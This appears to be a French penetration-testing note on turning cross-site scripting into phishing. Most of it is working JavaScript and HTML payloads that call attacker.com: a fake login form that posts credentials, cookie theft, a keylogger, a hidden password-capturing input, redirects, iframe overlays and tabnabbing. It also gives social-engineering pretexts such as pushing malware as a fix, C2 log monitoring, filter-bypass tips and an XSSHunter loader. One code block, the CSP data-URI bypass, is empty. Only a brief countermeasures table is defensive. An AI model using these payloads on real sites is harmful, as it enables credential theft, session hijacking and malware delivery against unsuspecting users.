

L'exploitation de **XSS** pour le phishing permet d'usurper une page légitime, de voler des identifiants ou de rediriger un utilisateur vers un site malveillant. Cette technique s'inscrit dans les phases d'exploitation lors d'un audit de **Web Application Enumeration** et peut mener à un **Session Hijacking**.



## Détection d'un XSS Exploitable

La détection repose sur l'identification de vecteurs d'injection dans les entrées utilisateur, qu'il s'agisse de **XSS** réfléchi ou stocké.

### Vecteurs de test
```html
<script>alert(1)</script>

<svg/onload=alert(1)>
```

### Injection dans les champs d'entrée
```html
<input value="XSS">
```

### Injection dans le contexte JavaScript
```javascript
var user = "<script>alert(1)</script>";
```

> [!tip]
> Privilégier les payloads sans balise `<script>` pour contourner les filtres basiques.

## Méthodes de livraison du payload (Reflected vs Stored)

La méthode de livraison détermine la persistance et la portée de l'attaque.

| Type | Vecteur | Persistance |
| :--- | :--- | :--- |
| **Reflected** | Paramètres URL, headers HTTP | Nécessite une interaction directe (phishing par lien) |
| **Stored** | Commentaires, profils, logs | Persistant, exécution automatique à chaque vue |

*   **Reflected** : Le payload est injecté dans la requête et renvoyé immédiatement par le serveur. Idéal pour des campagnes de phishing ciblées via des liens piégés.
*   **Stored** : Le payload est enregistré en base de données. Il permet une compromission massive sans interaction directe avec la victime.

## Analyse de la CSP (Content Security Policy) cible

Avant toute exploitation, il est crucial d'analyser les headers de sécurité pour identifier les restrictions imposées au navigateur.

```bash
curl -I https://target.com | grep Content-Security-Policy
```

Une politique restrictive peut bloquer l'exécution de scripts inline ou l'envoi de données vers des domaines tiers :
*   `script-src 'self'` : Bloque les scripts externes.
*   `connect-src 'self'` : Bloque l'exfiltration via `fetch()` ou `XMLHttpRequest` vers un serveur C2 externe.

## Techniques de social engineering associées

L'efficacité du XSS pour le phishing repose sur la crédibilité de l'injection.

*   **Pretexting** : Utiliser le XSS pour modifier le contenu d'une page de support technique afin d'inciter l'utilisateur à télécharger un "correctif" (malware).
*   **Urgence** : Injecter une bannière de notification demandant une reconnexion immédiate pour "maintenance de sécurité".
*   **Contextualisation** : Utiliser les données déjà présentes sur la page (nom d'utilisateur, historique) pour rendre le formulaire de phishing plus convaincant.

## Création d'une Fausse Page de Connexion

L'injection permet de manipuler le DOM pour remplacer le contenu légitime par un formulaire contrôlé par l'attaquant.

```javascript
document.body.innerHTML = '<form action="http://attacker.com/capture" method="POST">' +
    '<input type="text" name="username" placeholder="Enter username">' +
    '<input type="password" name="password" placeholder="Enter password">' +
    '<input type="submit" value="Login">' +
'</form>';
```

> [!warning] Attention :
> L'utilisation de **document.body.innerHTML** écrase le DOM existant, ce qui peut alerter l'utilisateur par un changement visuel brutal.

## Exfiltration des Identifiants

L'exfiltration nécessite un serveur distant pour collecter les données.

> [!danger] Prérequis :
> Nécessite un serveur distant (C2) pour collecter les données exfiltrées.

### Capture des entrées de formulaire
```javascript
document.getElementById("password").onchange = function() {
    fetch('http://attacker.com/log?password='+this.value);
};
```

### Capture de cookies
```javascript
fetch('http://attacker.com/capture?cookie='+document.cookie);
```

### Keylogger
```javascript
document.onkeypress = function(e) { 
    fetch('http://attacker.com/keys?key='+e.key); 
};
```

> [!danger] Danger :
> L'utilisation de **fetch()** peut être bloquée par les politiques **CORS** si le serveur attaquant n'est pas configuré correctement.

## Analyse des logs côté serveur (Attacker side)

Lors de l'utilisation d'un serveur C2, il est impératif de surveiller les logs pour valider la réception des données exfiltrées.

```bash
# Surveillance en temps réel des requêtes entrantes
tail -f /var/log/apache2/access.log | grep "capture"
```

Une analyse rigoureuse permet de corréler les IP des victimes avec les identifiants volés, tout en s'assurant que les payloads ne sont pas détectés par des systèmes de détection d'intrusion (IDS).

## Redirection Silencieuse

La redirection permet de déplacer l'utilisateur vers une infrastructure malveillante.

### Redirection automatique
```javascript
window.location = "http://attacker.com/phishing";
```

### Modification de lien
```html
<a href="http://target.com/login" onclick="this.href='http://attacker.com/login'">Login</a>
```

### Remplacement via iframe
```javascript
document.body.innerHTML = '<iframe src="http://attacker.com/login" width="100%" height="100%"></iframe>';
```

## Attaque Tabnabbing

Cette technique exploite l'inactivité de l'utilisateur pour substituer la page originale par une page de phishing.

```javascript
setTimeout(function(){
    document.body.innerHTML = '<form action="http://attacker.com/capture" method="POST">' +
    '<input type="text" name="username" placeholder="Enter username">' +
    '<input type="password" name="password" placeholder="Enter password">' +
    '<input type="submit" value="Login">' +
    '</form>';
}, 5000);
```

## Bypass des Protections

Le contournement des mécanismes de sécurité comme la **Content Security Policy (CSP)** ou les WAF est essentiel pour assurer l'exécution du payload.

### Encodage URL
```text
%3Cscript%3Ealert(1)%3C/script%3E
```

### Bypass CSP via Data URI
```html

```

## Évasion de sandbox JavaScript

Certaines applications utilisent des sandboxes (ex: `iframe` avec `sandbox` attribute ou `vm` modules) pour limiter l'exécution de code.

*   **Accès au parent** : Si le script est dans un iframe, tenter d'accéder au contexte parent : `window.parent.document`.
*   **Prototype Pollution** : Utiliser des vulnérabilités de pollution de prototype pour modifier le comportement des objets globaux et échapper aux contraintes de la sandbox.
*   **Fonctions natives** : Utiliser `Function('return this')()` pour tenter d'obtenir une référence à l'objet global hors de la portée restreinte.

## Exécution Cachée

L'utilisation de CSS permet de masquer les éléments malveillants tout en capturant les interactions utilisateur.

### Champ invisible avec capture d'input
```html
<input type="password" id="pass" style="opacity:0;position:absolute;" oninput="fetch('http://attacker.com/capture?pass='+this.value)">
```

### Dissimulation sous un bouton
```css
#fake-login {
    position: absolute;
    top: 10px;
    left: 10px;
    width: 300px;
    height: 200px;
    opacity: 0;
}
```

## Automatisation avec XSSHunter

**XSSHunter** permet de centraliser la collecte des données lors d'attaques à grande échelle.

```html
<script src="https://your-xsshunter.com/xss.js"></script>
```

## Sécurité & Contre-Mesures

| Mesure | Description |
| :--- | :--- |
| **CSP** | Restreindre les sources de scripts autorisées |
| **HttpOnly** | Empêcher l'accès aux cookies via JavaScript |
| **Sanitization** | Nettoyer les entrées utilisateur avant affichage |
| **WAF** | Filtrer les payloads malveillants en amont |

Pour approfondir, consulter les notes sur le **Content Security Policy (CSP) Bypass**.